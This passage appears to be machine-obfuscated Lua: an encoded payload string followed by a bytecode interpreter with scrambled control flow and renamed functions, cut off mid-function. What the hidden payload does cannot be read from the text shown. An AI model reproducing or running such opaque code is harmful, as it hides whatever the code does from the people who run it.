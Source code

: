 ^w+obAb65&b(=}o6k^nwPk+T=+sw+(ors6 ^bb(k5To =soo^?76o&+(65s=w owskd=b o&5(5P=6T^^bTkb=^ +ssobPo+6&{bb5+6! ow=k h^ m&b(+55=bsTwo5lTN+bs+(5Ps6=sTb^5^Tb 5s5ow{=6o&k(f5b=+ Pwsk=Zo+&s_(bP+6s^sb=koTs osbo+P5sPk6T  b^^owi^TT&nb(5sTbP==5^+w5ks&wbkP6= Po6P^5bs5=^>(&Pw6^&kwEkk=w+kwso+wo5Eg5+ss=! ^+b^kwUP+6^((&P56o^ bo&^(=5s== ork6T&6(ssRo=P==o^^5&6PssbT5k6+&=wPk6VP5^=& sw=oo+bbT55T ^TwokT/56(T= (s+(5Pss+kTT^+os6(&5P6o^&bqow=+ ww^(PPP6&05+PsY(bP+&+kkT06Psb(wPw6=&T6w&=bo5^=, bw+o5;s+=w%(^P_=b&^bkksT=+ossoSPb6+s5o 5=To ^wqobvb65sb(k5o=s^Xb=k+05+ss=kwP^6r^bb^k5Tb =bokk.j6b&+b55s=6 obskTUb+^&5oTP==o^^bl5+T++5sso+Po6s&iobPkT5 sw=ooq^+T&bo^P==s^+wokkTt+bs+(5PP6=^ob^5=Tb ^s55sT 6o&^(L5b=+ Pws5+Tk+^s=(bP&=5^sb=ko6T vsbo+?_6s&+boA^=w bw+o5us+=sD(^PD6=^+w5ksT++os&oCSo+T^5bs5==T ^wAobT^+=&s(65o6S^8wbk+X5&js=(oP^6=^bb k5To&wsoo^<p6b&+bP5s==^ow^k_#b+ &5(sP==o^^bOkb");local n=0;a.zLbQyPja(function()a.gQZWPQmD()n=n+1 end)local function e(l,e)if e then return n end;n=l+n;end local l,n,h=f(0,f,e,c,a.yLMeKXke);local function t()local l,n=a.yLMeKXke(c,e(1,3),e(5,6)+2);e(2);return(n*256)+l;end;local u=true;local u=0 local function m()local e=n();local n=n();local o=1;local d=(l(n,1,20)*(2^32))+e;local e=l(n,21,31);local n=((-1)^l(n,32));if(e==0)then if(d==u)then return n*0;else e=1;o=0;end;elseif(e==2047)then return(d==0)and(n*(1/0))or(n*(0/0));end;return a.RvmgyaCF(n,e-1023)*(o+(d/(2^52)));end;local p=n;local function _(n)local l;if(not n)then n=p();if(n==0)then return'';end;end;l=a.ELqloBzA(c,e(1,3),e(5,6)+n-1);e(n)local e=""for n=(1+u),#l do e=e..a.ELqloBzA(l,n,n)end return e;end;local p=#a.RUBTdQmg(b('\49.\48'))~=1 local e=n;local function ee(...)return{...},a.llFBSFBp('#',...)end local function j()local u={};local e={};local b={};local c={u,b,nil,e};local e=n()local r={}for d=1,e do local l=h();local e;if(l==0)then e=(h()~=#{});elseif(l==1)then local n=m();if p and a.GXxxpjyV(a.RUBTdQmg(n),'.(\48+)$')then n=a.YdgRbKRA(n);end e=n;elseif(l==2)then e=_();end;r[d]=e;end;c[3]=h();for b=1,n()do local e=h();if(l(e,1,1)==0)then local f=l(e,2,3);local a=l(e,4,6);local e={t(),t(),nil,nil};if(f==0)then e[o]=t();e[s]=t();elseif(f==#{1})then e[o]=n();elseif(f==k[2])then e[o]=n()-(2^16)elseif(f==k[3])then e[o]=n()-(2^16)e[s]=t();end;if(l(a,1,1)==1)then e[d]=r[e[d]]end if(l(a,2,2)==1)then e[o]=r[e[o]]end if(l(a,3,3)==1)then e[s]=r[e[s]]end u[b]=e;end end;for e=1,n()do b[e-(#{1})]=j();end;return c;end;local function z(l,e,n)local d=e;local d=n;return b(a.GXxxpjyV(a.GXxxpjyV(({a.zLbQyPja(l)})[2],e),n))end local function y(u,e,h)local function le(...)local t,g,k,j,_,l,b,m,c,p,z,n;local e=0;while-1<e do if e>2 then if e<5 then if e>1 then repeat if e~=4 then m={};c={...};break;end;p=a.llFBSFBp('#',...)-1;z={};until true;else m={};c={...};end else if e>2 then for l=40,54 do if 5<e then e=-2;break;end;n=f(7);break;end;else e=-2;end end else if e>0 then if e==2 then l=-41;b=-1;else k=f(6,90,3,22,u);_=ee j=0;end else t=f(6,97,1,21,u);g=f(6,52,2,66,u);end end e=e+1;end;for e=0,p do if(e>=k)then m[e-k]=c[e+1];else n[e]=c[e+1];end;end;local e=p-k+1 local e;local f;local function a(...)while true do end end while true do if l<-40 then l=l+42 end e=t[l];f=e[ne];if f>19 then if f>29 then if 34<f then if 38>f then if f<36 then l=e[o];else if f~=32 then for a=13,68 do if 36~=f then if(n[e[d]]==e[s])then l=l+1;else l=e[o];end;break;end;local f,a;for h=0,6 do if h<=2 then if h>=1 then if h>1 then f=e[d]n[f](r(n,f+1,e[o]))l=l+1;e=t[l];else n(e[d],e[o]);l=l+1;e=t[l];end else f=e[d];a=n[e[o]];n[f+1]=a;n[f]=a[e[s]];l=l+1;e=t[l];end else if 4<h then if 4<h then repeat if 6~=h then f=e[d]n[f](r(n,f+1,e[o]))l=l+1;e=t[l];break;end;f=e[d];a=n[e[o]];n[f+1]=a;n[f]=a[e[s]];until true;else f=e[d]n[f](r(n,f+1,e[o]))l=l+1;e=t[l];end else if h~=3 then n(e[d],e[o]);l=l+1;e=t[l];else f=e[d];a=n[e[o]];n[f+1]=a;n[f]=a[e[s]];l=l+1;e=t[l];end end end end break;end;else if(n[e[d]]==e[s])then l=l+1;else l=e[o];end;end end else if 38>=f then local l=e[d]n[l]=n[l](r(n,l+1,e[o]))else if f>=38 then repeat if 40~=f then l=e[o];break;end;local e=e[d]n[e](n[e+1])until true;else l=e[o];end end end else if f<32 then if 31==f then n[e[d]]=y(g[e[o]],nil,h);else local l=e[d]n[l](r(n,l+1,e[o]))end else if 33<=f then if 31<=f then repeat if f<34 then local d=e[d];local l=n[e[o]];n[d+1]=l;n[d]=l[e[s]];break;end;local f,t,r,s,a;local l=0;while l>-1 do if 3<=l then if 5<=l then if 2<l then repeat if l<6 then n(a,s);break;end;l=-2;until true;else l=-2;end else if 4>l then s=f[r];else a=f[t];end end else if l<=0 then f=e;else if-1<l then for e=17,78 do if 1<l then r=o;break;end;t=d;break;end;else t=d;end end end l=l+1 end until true;else local t,f,a,r,s;local l=0;while l>-1 do if 3<=l then if 5<=l then if 2<l then repeat if l<6 then n(s,r);break;end;l=-2;until true;else l=-2;end else if 4>l then r=t[a];else s=t[f];end end else if l<=0 then t=e;else if-1<l then for e=17,78 do if 1<l then a=o;break;end;f=d;break;end;else f=d;end end end l=l+1 end end else local e=e[d]n[e]=n[e](r(n,e+1,b))end end end else if f>=25 then if f<=26 then if f>24 then repeat if f~=25 then local l=e[d]n[l](r(n,l+1,e[o]))break;end;local l=e[d]n[l]=n[l](r(n,l+1,e[o]))until true;else local l=e[d]n[l]=n[l](r(n,l+1,e[o]))end else if f<28 then n[e[d]]=(e[o]~=0);else if 26<f then repeat if f~=29 then local l=e[d]local d,e=_(n[l](r(n,l+1,e[o])))b=e+l-1 local e=0;for l=l,b do e=e+1;n[l]=d[e];end;break;end;local a,h,b,p,k,c,u,f;for f=0,6 do if f<3 then if 0<f then if-2<f then repeat if 2~=f then f=0;while f>-1 do if f>2 then if 5>f then if 2<f then for e=32,86 do if f>3 then u=b[p];break;end;c=b[k];break;end;else c=b[k];end else if f>2 then repeat if f>5 then f=-2;break;end;n(u,c);until true;else n(u,c);end end else if 0<f then if f>=0 then repeat if 2~=f then p=d;break;end;k=o;until true;else k=o;end else b=e;end end f=f+1 end l=l+1;e=t[l];break;end;a=e[d]n[a]=n[a](r(n,a+1,e[o]))l=l+1;e=t[l];until true;else a=e[d]n[a]=n[a](r(n,a+1,e[o]))l=l+1;e=t[l];end else